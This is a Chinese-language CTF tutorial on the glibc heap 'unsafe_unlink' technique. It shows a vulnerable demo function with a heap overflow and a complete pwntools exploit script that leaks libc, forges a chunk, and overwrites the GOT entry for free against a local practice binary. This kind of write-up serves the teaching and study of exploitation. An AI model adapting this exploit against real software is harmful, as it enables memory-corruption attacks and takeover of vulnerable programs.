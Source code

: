 # unsafe_unlink
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>unsafe_unlink常常作为pwn入门的第一课，完成攻击时可以在任意地址进行一次改写，经常以改写got表实现劫持流程；[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/)，[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/unsafe_unlink.c)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在这里粘贴上我认为比较好的三篇资料（首先理解glibc的内存管理）：[堆溢出之unlink的利用](http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8/)，[堆溢出的unlink利用](http://papap.info/2016/08/01/%E5%A0%86%E6%BA%A2%E5%87%BA%E7%9A%84unlink%E5%88%A9%E7%94%A8/)，[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>demo程序是一个非常简单的漏洞礼包，在这里用unsafe_unlink实现一次改写got表：</font></br>

```C
ssize_t set()
{
  int index; // [esp+Ch] [ebp-Ch]

  index = -1;
  write(1, "Set chunk index:", 0x10u);
  __isoc99_scanf("%d", &index);
  if ( index < 0 )
    return write(1, "Set chunk data error!\n", 0x16u);
  write(1, "Set chunk data:", 0xFu);
  return read(0, buf[index], 0x400u);
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>填写堆块内容的时候默认过大，可以溢出至下一个堆块，因此在堆块中伪造堆块后，free下一个堆块即可利用unlink改写任意地址：</font></br>

```python
from pwn import *

p=process('./unlink')
elf=ELF('./unlink')

context.log_level='debug'
#gdb.attach(p)

n=2
chunk_addr=0x8049D60+4*n

def rv(s):
  p.recvuntil(s)

def sd(s):
  p.sendline(s)

def add(size):
  rv('Exit\n')
  sd('1')
  rv('add:')
  sd(str(size))

def setc(index,content):
  rv('Exit\n')
  sd('2')
  rv('index:')
  sd(str(index))
  rv('data:')
  p.send(content)

def dele(index):
  rv('Exit\n')
  sd('3')
  rv('index:')
  sd(str(index))

def show(index):
  rv('Exit\n')
  sd('4')
  rv('index:')
  sd(str(index))

add(0x100)
add(0x100)

dele(0)
show(0)

libc_base=u32(p.recvline()[0:4])-0x1b27b0

log.info(hex(libc_base))

dele(1)

#clear------------------------------------------- 
#start with index 2

add(0x100)
add(0x100)
add(0x100)

payload=p32(0)+p32(0)
payload+=p32(chunk_addr-12)+p32(chunk_addr-8)
payload+=(0x100-len(payload))*'a'
payload+=p32(0x100)+p32(0x108)

setc(2,payload)

dele(3)

setc(2,'a'*12+p32(elf.got['free']))
setc(2,'aaaa')

dele(3)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完之后查看core文件可以看到got表改写成功：</font></br>

![unlink](../../screenshot/unlink/unlink.png)